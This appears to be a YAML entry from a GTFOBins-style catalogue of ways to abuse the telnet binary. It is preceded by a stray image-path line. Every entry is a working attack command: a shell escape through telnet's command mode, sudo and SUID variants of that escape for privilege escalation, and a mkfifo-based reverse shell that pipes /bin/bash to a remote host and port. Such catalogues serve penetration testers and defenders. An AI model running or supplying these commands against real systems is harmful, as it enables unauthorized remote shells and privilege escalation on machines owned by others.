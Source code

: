```yaml
---
functions:
  exec-interactive:
    - code: |
        RHOST=www.google.com
        RPORT=80
        telnet $RHOST $RPORT
        ^]
        !/bin/sh
      description: MacOS only.
  reverse-shell:
    - code: |
        RHOST=127.0.0.1
        RPORT=8000
        TF=$(mktemp)
        rm $TF
        mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/bash 1>$TF
  sudo-enabled:
    - code: |
        RHOST=www.google.com
        RPORT=80
        sudo telnet $RHOST $RPORT
        ^]
        !/bin/sh
      description: MacOS only.
  suid-limited:
    - code: |
        RHOST=www.google.com
        RPORT=80
        ./telnet $RHOST $RPORT
        ^]
        !/bin/sh
      description: MacOS only.
---
```


